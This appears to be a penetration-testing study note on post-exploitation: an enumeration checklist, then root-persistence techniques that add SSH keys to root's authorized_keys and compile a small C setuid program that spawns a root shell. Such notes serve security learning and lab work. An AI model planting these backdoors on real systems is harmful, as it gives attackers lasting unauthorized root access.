 # Guide

1. Secure foothold within the machine, see [[Securing Access]]
2. List all applications and current operating system on the systems and check for known vulnerabilities.
3. Search for important files which may grant more access, see [[Valuable Files]]
4. Search for important information within running or interesting applications, especially the application used to gain access, e.g. vulnerable database and its configuration files Privilege Escalation
5. Search and document all users
6. See [[4. Post Exploitation/Privilege Escalation/Windows/1. Guide|Windows]] or [[4. Post Exploitation/Privilege Escalation/Linux/1. Guide|Linux]] Guide

## Getting Root Access


## Using Root Access

How to use the root access to gain access

### SSH Keys

Create SSH keys for the Root account then just connect.
Input ssh key into .ssh, `.ssh/authorized_keys`

### File Creation to Open a Shell

Create a file using the root privilege, or enable its privileges:

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char *argv[]) {
	setreuid(0, 0);
	execve("/bin/sh", NULL, NULL); 
}
```

Compile the file:

```
gcc -o shell /opt/shells/setuid/exec.c
```
